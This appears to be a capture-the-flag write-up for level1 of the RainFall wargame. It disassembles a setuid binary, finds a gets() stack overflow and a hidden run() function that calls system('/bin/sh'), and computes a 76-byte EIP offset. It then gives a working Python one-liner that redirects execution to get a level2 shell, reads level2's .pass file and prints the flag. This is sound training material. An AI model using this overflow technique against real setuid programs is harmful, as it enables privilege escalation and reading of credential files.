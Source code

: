 Once again we start this level by listing the files in the current directory:

```bash
level1@RainFall:~$ ls -la
total 17
dr-xr-x---+ 1 level1 level1   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level1 level1  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level1 level1 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 level2 users  5138 Mar  6  2016 level1
-rw-r--r--+ 1 level1 level1   65 Sep 23  2015 .pass
-rw-r--r--  1 level1 level1  675 Apr  3  2012 .profile
```

Let's check what's happening in level1 using **radare2**:

```bash
[0x08048390]> afl
0x08048340    1      6 sym.imp.gets
0x08048350    1      6 sym.imp.fwrite
0x08048360    1      6 sym.imp.system
0x08048380    1      6 sym.imp.__libc_start_main
0x08048390    1     34 sub.entry0_8048390
0x080483c0    6     85 sub.__do_global_dtors_aux_80483c0
0x08048420    4     35 sub.frame_dummy_8048420
0x08048520    4     42 sub.__do_global_ctors_aux_8048520
0x08048510    1      2 sub.__libc_csu_fini_8048510
0x08048512    1      4 sub.__i686.get_pc_thunk.bx_8048512
0x08048444    1     60 sub.run_8048444
0x0804854c    1     26 sub._fini_804854c
0x080484a0    4     97 sub.__libc_csu_init_80484a0
0x08048480    1     23 sub.main_8048480
0x080482f8    3     46 sub._init_80482f8
0x08048370    1      6 sub.loc.imp.__gmon_start___8048370
[0x08048390]> pdf @ sub.main_8048480
            ;-- main:
            ; ICOD XREF from sub.entry0_8048390 @ 0x80483a7(r)
┌ 23: sub.main_8048480 ();
│ afv: vars(1:sp[0x44..0x44])
│           0x08048480      55             push ebp
│           0x08048481      89e5           mov ebp, esp
│           0x08048483      83e4f0         and esp, 0xfffffff0
│           0x08048486      83ec50         sub esp, 0x50
│           0x08048489      8d442410       lea eax, [var_10h]
│           0x0804848d      890424         mov dword [esp], eax
│           0x08048490      e8abfeffff     call sym.imp.gets
│           0x08048495      c9             leave
└           0x08048496      c3             ret
[0x08048390]> pdf @ sub.run_8048444
            ;-- run:
┌ 60: sub.run_8048444 ();
│ afv: vars(3:sp[0x10..0x18])
│           0x08048444      55             push ebp
│           0x08048445      89e5           mov ebp, esp
│           0x08048447      83ec18         sub esp, 0x18
│           0x0804844a      a1c0970408     mov eax, dword [obj.stdout] ; obj.stdout__GLIBC_2.0
│                                                                      ; [0x80497c0:4]=0
│           0x0804844f      89c2           mov edx, eax
│           0x08048451      b870850408     mov eax, str.Good..._Wait_what__n ; 0x8048570 ; "Good... Wait what?\n"
│           0x08048456      8954240c       mov dword [var_ch], edx
│           0x0804845a      c744240813..   mov dword [var_8h], 0x13    ; [0x13:4]=-1 ; 19
│           0x08048462      c744240401..   mov dword [var_4h], 1
│           0x0804846a      890424         mov dword [esp], eax
│           0x0804846d      e8defeffff     call sym.imp.fwrite
│           0x08048472      c704248485..   mov dword [esp], str._bin_sh ; [0x8048584:4]=0x6e69622f ; "/bin/sh"
│           0x08048479      e8e2feffff     call sym.imp.system
│           0x0804847e      c9             leave
└           0x0804847f      c3             ret
```

What we can take away from this is that there is a `run` function in the program that calls `/bin/sh`, something we want to exploit. Let's look around and find a way to run this.
Using a [generator](https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/) we're going to try and find the **address** at which our **program segfaults**:

```bash
(gdb) r
Starting program: /home/user/level1/level1
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A

Program received signal SIGSEGV, Segmentation fault.
0x63413563 in ?? ()
```

Thanks to this string we find the **EIP offset** at `0x63413563`, which means it is **76 chars** far.

```
The EIP offset is the number of characters needed to overwrite the saved return address on the stack
```

Now that we know this information, let's run a small **python script** to exploit it:

Script explanation:

- **"A" \* 76**: Fills the buffer exactly up to the return address (EIP offset).

- **"\x44\x84\x04\x08"**: Overwrites EIP with the address of the run function (0x08048444, little endian format).

- **( ... && cat)**: Keeps the shell open after exploitation so you can enter commands.

- **| ./level1**: Pipes the crafted input into the vulnerable program.

```bash
level1@RainFall:~$ (python -c 'print "A" * 76 + "\x44\x84\x04\x08"' && cat) | ./level1
Good... Wait what?
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```

This way we get our next flag !
